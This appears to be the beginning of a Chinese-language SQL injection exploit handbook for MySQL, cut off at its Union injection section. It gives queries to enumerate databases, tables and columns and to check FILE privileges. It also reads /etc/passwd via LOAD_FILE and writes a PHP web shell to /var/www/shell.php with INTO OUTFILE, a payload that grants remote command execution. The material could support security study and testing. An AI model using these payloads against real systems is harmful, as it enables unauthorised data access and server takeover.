 # EXP手册-SQL injection(MySQL) 

php:  
## SQL语句基础知识
### 0x01查询语句
#### 1.查询数据库名
```
SELECT database();    
SELECT schema_name FROM information_schema.schemata;   
SELECT DISTINCT(db) FROM mysql.db;-- (Privileged)    
``` 
#### 2.查询表名
```
SELECT table_name FROM information_schema.tables WHERE  table_schema=database()； 
```  
#### 3.查询列名   
tablename为表名
```
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename'   
```    
### 0x02文件读写
前置条件：file权限
#### 1.查询权限
username为用户名
```
SELECT file_priv FROM mysql.user WHERE user = 'username';//需要root权限    
SELECT grantee, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'file' AND grantee like '%username%';     
```
#### 2.读文件   
```
SELECT LOAD_FILE('/etc/passwd');
```
- LOAD_FILE()函数操作文件的当前目录是@@datadir 
- MySQL用户必须拥有对此文件读取的权限
- 文件大小必须小于 max_allowed_packet。
- @@max_allowed_packet的默认大小是1047552 字节


#### 3.写文件
INTO OUTFILE/DUMPFILE
```
SELECT '<? system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php';
```
### 0x03常用常量和函数
@@global.secure_file_priv
查询版本
VERSION()
@@VERSION
@@GLOBAL.VERSION 服务器主机名：
@@HOSTNAME
## SQL注入漏洞利用
SQL注入利用类型主要分类：
- Union型注入
- 报错型注入
- Bool型盲注
- 时间型盲注
### 0x04 Union注入